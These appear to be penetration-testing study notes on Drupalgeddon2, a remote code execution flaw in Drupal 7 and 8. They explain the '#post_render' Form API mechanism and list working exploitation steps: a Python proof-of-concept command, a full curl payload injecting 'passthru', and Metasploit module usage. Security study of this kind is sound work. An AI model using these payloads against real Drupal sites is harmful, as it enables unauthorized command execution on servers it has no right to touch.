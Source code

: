 - Critical unauthenticated RCE vulnerability.
- Affects `Drupal 7.x and 8.x.`.
- Allows execution of arbitrary PHP code.
- Abuses Drupal's Form API rendering system via `#post_render` callbacks.
# Vulnerability

- Drupal allows forms to define special keys to execute functions after rendering.
- Injecting malicious form values can execute system commands through PHP:
	- `#post_render[] = passthru`
- Render array system processes untrusted values before authentication is enforced.
# Exploitation

- Using public Python PoCs:
	- `python3 drupalgeddon2.py -t http://target -c "id"`
		- sends POST request to `/user/register`, injecting a render array calling PHP function like `passthru()` or `system()`.
- Manual exploitation:
	- `curl -X POST http://target/?q=user/password --data "form_id=user_pass&_triggering_element_name=name&name[#post_render][]=passthru&name[#markup]=id"`
		- triggers a system call - id.
- Metasploit:
	- `use exploit/unix/webapp/drupal_drupalgeddon2`
	- `set RHOSTS http://target`
	- `run`
